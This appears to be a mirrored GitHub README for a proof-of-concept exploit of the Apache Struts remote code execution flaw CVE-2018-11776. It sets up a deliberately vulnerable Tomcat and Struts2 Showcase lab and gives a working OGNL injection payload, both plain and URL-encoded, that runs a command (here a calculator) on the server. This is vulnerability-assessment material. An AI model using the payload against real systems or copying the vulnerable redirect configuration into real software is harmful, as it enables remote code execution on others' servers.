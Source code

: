 # CVE-2018-11776

Creating a vulnerable environment and the PoC 

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/xfox64x](https://github.com/xfox64x) |
| Url      | [https://github.com/xfox64x/CVE-2018-11776](https://github.com/xfox64x/CVE-2018-11776)                                               |
| Stars    | 15                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* ognl-expression* struts-poc* struts2-showcase* vulnerability

</details>

## Readme

# CVE-2018-11776

Proof of Concept exploit so I could quickly assess what sorts of protections and fixes are available.

Originally found by Man Yue Mo, Semmle: https://semmle.com/news/apache-struts-CVE-2018-11776

Semmle had a "Apache Struts RCE - CVE-2018-11776 - PoC Exploit Demo" YouTube video up for a bit, but I believe it's gone or, at least, no longer linked to Semmle: https://www.youtube.com/watch?v=5SDNX20SLJ0

Took information from the above and then started looking at the commits to the struts repo: https://github.com/apache/struts/commit/6e87474f9ad0549f07dd2c37d50a9ccd0977c6e5 


I'm too lazy to Docker or whatever the fuck...

## Setting up and Exploiting a Vulnerable Host
### Download latest Ubuntu Desktop ISO and create a virtual machine.
http://releases.ubuntu.com/18.04.1/ubuntu-18.04.1-desktop-amd64.iso?_ga=2.265574989.317727484.1535056103-825490018.1535056103

### Install dependencies:
sudo apt-get update

sudo apt-get upgrade

sudo apt-get dist-upgrade

sudo apt-get install default-jdk vim net-tools


### Set up Tomcat:
mkdir ~/sources

cd ~/sources

wget http://mirrors.ocf.berkeley.edu/apache/tomcat/tomcat-7/v7.0.90/bin/apache-tomcat-7.0.90.tar.gz

tar xvzf apache-tomcat-7.0.90.tar.gz

sudo mv apache-tomcat-7.0.90 /opt/tomcat


### Update bashrc with variables:
vim ~/.bashrc

export JAVA_HOME=/usr/lib/jvm/default-java

export CATALINA_HOME=/opt/tomcat

. ~/.bashrc


### Add an admin to the Tomact gui:
sudo vim /opt/tomcat/conf/tomcat-users.xml

	<user username="username" password="password" roles="manager-gui,admin-gui" />

	
### Get a vulnerable Struts2 Showcase so we have something to work with:
cd ~/sources

wget http://central.maven.org/maven2/org/apache/struts/struts2-showcase/2.3.14/struts2-showcase-2.3.14.war


### Deploy the WAR file through the Tomcat gui:
$CATALINA_HOME/bin/shutdown.sh

$CATALINA_HOME/bin/startup.sh

http://127.0.0.1:8080/manager/html


### Restart Tomcat and check that the Struts2 Showcase is available:
$CATALINA_HOME/bin/shutdown.sh

$CATALINA_HOME/bin/startup.sh

http://127.0.0.1:8080/manager/html


### Add a vulnerable redirection action without a namespace:
vim /opt/tomcat/webapps/struts2-showcase-2.3.14/WEB-INF/classes/struts.xml

        <action name="help">
                <result type="redirectAction">
                        <param name="actionName">date.action</param>
                </result>
        </action>


date.action is already defined, so we just added another redirect action that calls date.action

By default, alwaysSelectFullNamespace should be set to True.


### Restart Tomcat and check out the Struts2 Showcase page:
$CATALINA_HOME/bin/shutdown.sh

$CATALINA_HOME/bin/startup.sh

http://127.0.0.1:8080/struts2-showcase-2.3.14/showcase.jsp


### Create OGNL expression to do stuff. Let's do what Semmle probably did in their YouTube video:
%{(#_memberAccess['allowStaticMethodAccess'] = true).(#rt = @java.lang.Runtime@getRuntime()).(#rt.exec('gnome-calculator'))}

### OGNL expression needs to be URL-encoded and stuck in before the last '/' in the URL, hitting our vulnerable help.action:
127.0.0.1:8080/struts2-showcase-2.3.14/\<encoded-command-goes-here\>/help.action

127.0.0.1:8080/struts2-showcase-2.3.14/%25%7B%28%23%5F%6D%65%6D%62%65%72%41%63%63%65%73%73%5B%27%61%6C%6C%6F%77%53%74%61%74%69%63%4D%65%74%68%6F%64%41%63%63%65%73%73%27%5D%20%3D%20%74%72%75%65%29%2E%28%23%72%74%20%3D%20%40%6A%61%76%61%2E%6C%61%6E%67%2E%52%75%6E%74%69%6D%65%40%67%65%74%52%75%6E%74%69%6D%65%28%29%29%2E%28%23%72%74%2E%65%78%65%63%28%27%67%6E%6F%6D%65%2D%63%61%6C%63%75%6C%61%74%6F%72%27%29%29%7D/help.action


Executing on the vulnerable Ubuntu host, we should see a new calc instance pop up.

### Related commits fixing the issue:
https://github.com/apache/struts/commit/6e87474f9ad0549f07dd2c37d50a9ccd0977c6e5


## Thoughts:
Another extremely specific, vulnerable implementation of struts. The media coverage of this vulnerability had everyone freaking out, though only the sloppiest code/configs are really vulnerable... I can't think of an efficient, stealthy way of reliably finding this vulnerability and/or exploiting it. My recommendation: just fucking upgrade struts... (or stop using it)



## Get the content

```
git clone https://github.com/xfox64x/CVE-2018-11776
cd CVE-2018-11776
```

{% embed url="https://github.com/xfox64x/CVE-2018-11776" %}

<figure><img src="https://avatars.githubusercontent.com/u/11416821?v=4" alt=""><figcaption><p>xfox64x</p></figcaption></figure>
